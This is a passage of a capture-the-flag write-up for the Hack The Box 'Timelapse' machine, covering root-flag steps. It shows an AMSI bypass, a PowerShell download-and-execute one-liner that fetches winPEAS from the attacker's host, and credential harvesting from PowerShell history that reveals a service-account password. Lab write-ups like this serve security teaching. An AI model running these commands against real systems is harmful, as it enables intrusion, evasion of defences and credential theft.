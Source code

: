 ```bash
9b3b427f94227f85aca1fca5724736f9
```


# Root Flag
---

## Get credentials from powershell command history

> For old machines, most **PowerShell Empire**'s modules work well for them
> > https://github.com/BC-SECURITY/Empire/tree/main/empire/server/data/module_source
{: .prompt-tip }

> Latest version of winpeas did not work well on the machine, use `Invoke-winPEAS.ps1` from 2021 instead
{: .prompt-info }

```bash
┌──(kali㉿kali)-[~/htb/Timelapse]
└─$ mkdir www&&cd www

┌──(kali㉿kali)-[~/htb/Timelapse/www]
└─$ ln -s /opt/sectools/powershell/Empire/privesc/Invoke-winPEAS.ps1

┌──(kali㉿kali)-[~/htb/Timelapse/www]
└─$ python -m http.server 80
```

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
*Evil-WinRM* PS C:\Users\legacyy\Documents> iex(new-object net.webclient).downloadstring("http://10.10.14.70/Invoke-winPEAS.ps1")
*Evil-WinRM* PS C:\Users\legacyy\Documents> Invoke-winPEAS
```

![](/assets/obsidian/13f51687057ff11229edd2082104f6f3.png)

View powershell command history 

```bash
*Evil-WinRM* PS C:\programdata> cat $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
